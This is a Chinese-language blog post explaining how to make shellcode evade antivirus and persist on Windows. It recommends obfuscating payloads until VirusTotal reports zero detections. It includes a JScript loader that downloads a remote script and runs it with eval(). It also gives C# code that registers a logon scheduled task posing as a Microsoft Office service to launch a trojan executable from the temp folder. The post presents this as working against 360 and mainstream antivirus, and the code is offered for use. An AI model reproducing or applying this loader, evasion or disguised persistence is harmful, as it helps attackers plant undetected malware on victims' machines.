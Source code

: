 +++
title = "免杀shellcode并绕过杀毒添加自启动"
author = "Hzllaga"
date = 2020-02-17
categories = [ "原创" ]
tags = ["免杀","shellcode"]
+++
首先得处理好shellcode，尽量把添加自启动的操作独立成一个Loader，可以避免杀毒软件检测到特征并拦截，这边选择的是利用Javascript来处理Shellcode，而添加自启动的操作由C#来控制，并成功实现了绕过360核晶防护添加计划任务完成木马自启动。<!--more--> 
Shellcode的部分用CACTUSTORCH完成，链接：[CACTUSTORCH](https://github.com/mdsecactivebreach/CACTUSTORCH)
也可以自己C#编译一个再用DotNetToJScript转Javascript语言，教程：[免杀 MSF Windows Payload 的方法与实践](../免杀-msf-windows-payload-的方法与实践/)

处理完的js脚本，推荐使用sojson的混淆代码，可以实现virustotal的57引擎0报毒，链接：[Js加密](https://www.sojson.com/jsobfuscator.html)，我一个18年处理的msf shellcode到现在还是0报毒。

因为混淆了，所以体积自然会变很大，这边提供一个网络加载的方式，可以把体积缩小到4kb：
{{< highlight JavaScript >}}
var xml=new ActiveXObject("Microsoft.XMLHTTP");
xml.open("GET","http://127.0.0.1/ccc.js",false);
xml.send();
var aaa=xml.responseText;
eval(aaa);
{{< /highlight >}}
因为是WSH模式的，当然还能用WScript.Arguments.Item(0);的方式来传递代码，可以直接注入一个加密的代码，然后在写一段解密的代码会更隐蔽。

再来谈谈添加自启动，因为程序现在不需要处理上面那些行为，所以杀毒不会拦截，代码：
{{< highlight js >}}
TaskSchedulerClass scheduler = new TaskSchedulerClass();
//连接
scheduler.Connect(null, null, null, null);
//获取创建任务的目录
ITaskFolder folder = scheduler.GetFolder("\\");
//设置参数
ITaskDefinition task = scheduler.NewTask(0);
task.RegistrationInfo.Author = "Microsoft Office";//创建者
task.RegistrationInfo.Description = "This task monitors the state of your Microsoft Office ClickToRunSvc and sends crash and error logs to Microsoft.";//描述
//设置触发机制（此处是 登陆后）
task.Triggers.Create(_TASK_TRIGGER_TYPE2.TASK_TRIGGER_LOGON);
//设置动作（此处为运行exe程序）
IExecAction action = (IExecAction)task.Actions.Create(_TASK_ACTION_TYPE.TASK_ACTION_EXEC);
action.Path = Path.GetTempPath() + @"\" + file + ".exe";//设置文件目录
task.Settings.ExecutionTimeLimit = "PT0S"; //运行任务时间超时停止任务吗? PTOS 不开启超时
task.Settings.DisallowStartIfOnBatteries = false;//只有在交流电源下才执行
task.Settings.RunOnlyIfIdle = false;//仅当计算机空闲下才执行

IRegisteredTask regTask =
    folder.RegisterTaskDefinition("Office ClickToRun Service Monitor", task,//此处需要设置任务的名称（name）
    (int)_TASK_CREATION.TASK_CREATE, null, //user
    null, // password
    _TASK_LOGON_TYPE.TASK_LOGON_INTERACTIVE_TOKEN,
    "");
IRunningTask runTask = regTask.Run(null);
{{< /highlight >}}
程序添加完自启动，还能顺便把上面网络加载的js脚本释放出来并运行，到发布日期0217能过各种主流杀毒不被查杀并正常上线。![](https://cdn.wtfsec.org/img/20200222165121.png)
相关代码已经发布在Github上，链接：[https://github.com/Hzllaga/JsLoader](https://github.com/Hzllaga/JsLoader)